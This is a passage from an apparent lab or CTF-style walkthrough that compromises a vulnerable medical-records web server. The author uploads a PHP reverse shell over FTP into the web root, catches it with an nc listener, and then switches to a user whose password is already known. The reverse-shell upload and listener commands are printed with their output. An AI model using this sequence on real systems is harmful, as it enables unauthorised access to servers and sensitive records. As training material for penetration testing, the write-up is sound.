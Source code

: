 ```bash
drwxr-xr-x   4 medical  medical      4096 Sep 21  2011 patients
drwxr-xr-x  10 medical  medical      4096 Sep 21  2011 phpmyadmin
-rw-r--r--   1 medical  medical       861 Sep 21  2011 phpunit.xml
-rw-r--r--   1 medical  medical     29416 Sep 21  2011 setup.php
drwxr-xr-x   4 apache   apache       4096 Oct 27  2011 sites
-rw-r--r--   1 medical  medical     12749 Sep 21  2011 sl_convert.php
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 sql
-rw-r--r--   1 medical  medical      9853 Sep 21  2011 sql_upgrade.php
drwxr-xr-x  14 medical  medical      4096 Sep 21  2011 templates
-rw-r--r--   1 medical  medical       596 Sep 21  2011 version.php
226 Transfer complete
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful
150 Opening BINARY mode data connection for test.txt
226 Transfer complete
6 bytes sent in 0.00 secs (48.8281 kB/s)
```

### 5. Get a shell
Upload a php reverse shell file.
```bash
ftp> put rev.php
local: rev.php remote: rev.php
200 PORT command successful
150 Opening BINARY mode data connection for rev.php
226 Transfer complete
2150 bytes sent in 0.00 secs (16.8066 MB/s)
```
Access it in the browser to get the shell.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999                      
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.130] 42957
Linux localhost.localdomain 2.6.38.8-pclos3.bfs #1 SMP PREEMPT Fri Jul 8 18:01:30 CDT 2011 i686 i686 i386 GNU/Linux
 04:44:15 up  1:01,  0 users,  load average: 1.00, 2.32, 9.97
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=479(apache) gid=416(apache) groups=416(apache)
sh: no job control in this shell
sh-4.1$ id  
id
uid=479(apache) gid=416(apache) groups=416(apache)
```

### 6. Switch users
Since the medical password is known, switch to that user.
```bash
bash-4.1$ su - medical
Password: 
[medical@localhost ~]$
```
Check out the user's home folder.
```bash
[medical@localhost ~]$ ls -R
.:
Desktop/    Downloads/  Music/     Templates/  Videos/
Documents/  Movies/     Pictures/  tmp/

./Desktop:
addlocale.desktop*     draknetcenter.desktop*
drakfirewall.desktop*  Get Libre Office.desktop*

```